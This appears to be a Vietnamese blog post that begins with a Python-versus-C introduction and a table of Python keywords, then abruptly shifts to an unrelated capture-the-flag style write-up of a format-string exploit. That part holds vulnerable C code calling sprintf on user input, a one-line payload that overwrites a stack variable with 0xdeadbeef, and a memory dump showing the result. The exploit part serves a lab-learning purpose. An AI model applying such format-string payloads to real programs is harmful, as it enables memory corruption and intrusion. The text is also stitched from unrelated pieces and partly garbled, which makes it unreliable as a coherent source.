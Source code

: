 ```yaml
---
layout: post
title: level_0
---
```


## Python hay C/C++?

C/C++: khó viết khó đọc, nhưng chương trình viết ra thường tối ưu, chạy nhanh

Python: dễ viết dễ đọc, nhiều thư viện hỗ trợ

Mục tiêu là để học và hiểu về thuật toán, nên chỉ chú trọng vào việc đọc và viết code một cách thuận tiện nhất. Vì thế, hãy sử dụng Python

## Những thứ cơ bản nhất

### Keyword

<pre class="memory">
<span style="color:aqua">False</span>     await       <span style="color:aqua">else</span>       import      pass
<span style="color:aqua">None</span>      <span style="color:aqua">break</span>       except     <span style="color:aqua">in</span>          raise
<span style="color:aqua">True</span>      <span style="color:aqua">class</span>       finally    <span style="color:aqua">is</span>          <span style="color:aqua">return</span>
<span style="color:aqua">and</span>       <span style="color:aqua">continue</span>    <span style="color:aqua">for</span>        lambda      try
as        <span style="color:aqua">def</span>         from       nonlocal    <span style="color:aqua">while</span>
assert    del         global     <span style="color:aqua">not</span>         with
async     <span style="color:aqua">elif</span>        <span style="color:aqua">if</span>         <span style="color:aqua">or</span>          yield
</pre>

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void vuln(char *string)
{
  volatile int target;
  char buffer[64];

  target = 0;

  sprintf(buffer, string);
  
  if(target == 0xdeadbeef) {
      printf("you have hit the target correctly :)\n");
  }
}

int main(int argc, char **argv)
{
  vuln(argv[1]);
}
```

Hàm đầu tiên được xem xét trong bài này là `sprintf`. Hàm này có tham số đầu tiên là một biến (pointer), tiếp theo là một formatted string, theo sau đó là các tham số để thay vào formatted string. `sprintf` hoạt động bằng cách phân tích formatted string đưa vào, sau đó sinh ra một chuỗi mới sẽ được lưu vào biến tham số.

Tương tự như trong các bài về exploit stack trước đây.
1. Biến `target` được lưu trên stack với địa chỉ `ebp - 0xc`. Biến này có 4 byte.
2. Biến `buffer` được lưu trên stack với địa chỉ `ebp - 0x4c`. Biến này có 64 byte.

2 biến này lắm kề này trên stack. Do đó, về cơ bản, chúng ta sẽ cần một formatted string có thể sinh ra 68 byte, trong đó 4 byte cuối sẽ chứa giá trị mong muốn của `target`. Để exploit format0, formatted string sẽ như sau.

```bash
python -c "print '%064d\xef\xbe\xad\xde'"
```

<pre class="memory">
0xbffff700:     <span style="color:springgreen">0xbffff71c</span>      <span style="color:springgreen">0xbffff978</span>      <span style="color:springgreen">0x080481e8</span>      0xbffff798
0xbffff710:     0xb7fffa54      0x00000000      0xb7fe1b28      <span style="color:aqua">0x30303030</span>
0xbffff720:     <span style="color:aqua">0x30303030</span>      <span style="color:aqua">0x30303030</span>      <span style="color:aqua">0x30303030</span>      <span style="color:aqua">0x30303030</span>
0xbffff730:     <span style="color:aqua">0x30303030</span>      <span style="color:aqua">0x30303030</span>      <span style="color:aqua">0x30303030</span>      <span style="color:aqua">0x30303030</span>
0xbffff740:     <span style="color:aqua">0x30303030</span>      <span style="color:aqua">0x30303030</span>      <span style="color:aqua">0x30303030</span>      <span style="color:aqua">0x30303030</span>
0xbffff750:     <span style="color:aqua">0x31303030</span>      <span style="color:aqua">0x31353433</span>      <span style="color:aqua">0x38323133</span>      <span style="color:orangered">0xdeadbeef</span>
0xbffff760:     0xb7fd8300      0xb7fd7ff4      0xbffff788      0x08048444
</pre>